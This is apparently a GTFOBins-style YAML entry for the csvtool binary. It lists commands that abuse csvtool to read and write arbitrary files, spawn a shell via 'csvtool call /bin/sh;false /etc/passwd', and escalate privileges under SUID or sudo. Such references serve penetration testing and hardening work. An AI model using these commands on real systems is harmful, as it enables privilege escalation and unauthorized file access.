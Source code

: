 functions:
  file-read:
    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
      code: |
        LFILE=file_to_read
        csvtool trim t $LFILE
  file-write:
    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        csvtool trim t $TF -o $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./csvtool trim t $LFILE
  shell:
    - code: csvtool call '/bin/sh;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
---
